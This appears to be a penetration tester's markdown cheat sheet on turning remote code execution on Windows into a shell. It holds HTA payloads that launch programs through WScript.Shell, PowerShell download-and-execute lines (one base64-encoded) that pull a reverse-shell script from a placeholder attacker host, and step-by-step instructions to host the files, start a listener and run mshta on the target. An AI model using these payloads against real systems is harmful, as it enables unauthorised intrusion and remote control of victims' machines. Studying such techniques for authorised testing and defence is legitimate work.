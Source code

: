 # Getting shells from RCE on Windows

These are just some of the ways

* Sources:
    * [hacktricks.xyz](https://book.hacktricks.xyz/shells/shells/windows)
    * [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    
    
## mshta
* Two types of files to download and execute
    * .hta
    * .sct

* Two types of ways (that I know of) to retrieve
    * http
        * `#!batch mshta http://webserver/payload.hta`
    * smb
        * `#!batch mshta \\webdavserver\folder\payload.hta`

* Script: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    ```html
    <html>
    <head>
    <HTA:APPLICATION ID="HelloExample">
    <script language="jscript">
            var c = "cmd.exe /c calc.exe"; 
            new ActiveXObject('WScript.Shell').Run(c);
    </script>
    </head>
    <body>
    <script>self.close();</script>
    </body>
    </html>
    ```

* Sample usage to get powershell shell
    1. On your Kali, host (i.e. `#!bash python3 -m http.server`) the two files
        * an hta file, i.e. from: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
            ```html
            <html>
            <head>
            <HTA:APPLICATION ID="HelloExample">
            <script language="jscript">
                    var a = 'powershell -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")'
                    var b = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")"'
                    var c = 'powershell -Exec Bypass -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADwAWQBPAFUAUgBfAEsAQQBMAEkAXwBJAFAAXwBPAFIAXwBGAEkATABFAEgATwBTAFQASQBOAEcAXwBNAEEAQwBIAEkATgBFAD4AOgA4ADAAMAAwAC8AbQBpAG4AaQAtAHIAZQB2AGUAcgBzAGUALgBwAHMAMQApAA=='
                    new ActiveXObject('WScript.Shell').Run(a);
            </script>
            <!-- -------READ------- -->
            <!--var c is base64 encoded with the value of "IEX(New-Object System.Net.WebClient).DownloadString('http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1')" -->
            <!-- """ does not work in encoding, use proper syntax -->
            <!-- choose between var a,b or c to replace 'x' in ...').Run(x) above
            </head>
            <body>
            <script>self.close();</script>
            </body>
            </html>
            ```
        * [mini-reverse.ps1](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) from @staaldraad
            * Modify to change IP Address and port of reverse shell listener
    1. On your Kali, Run your reverse shell listener (msf exploit/multi/hanlder or nc)
    1. On the target machine, execute:
        ```batch
        mshta http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.hta
        ```
    
        
## Powershell
   * Please see script with examples above (mshta - var a,b and c)
   * To be added here and more
   * Working shells I have tried:
      * [Mini-Reverse](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) by @staaldraad


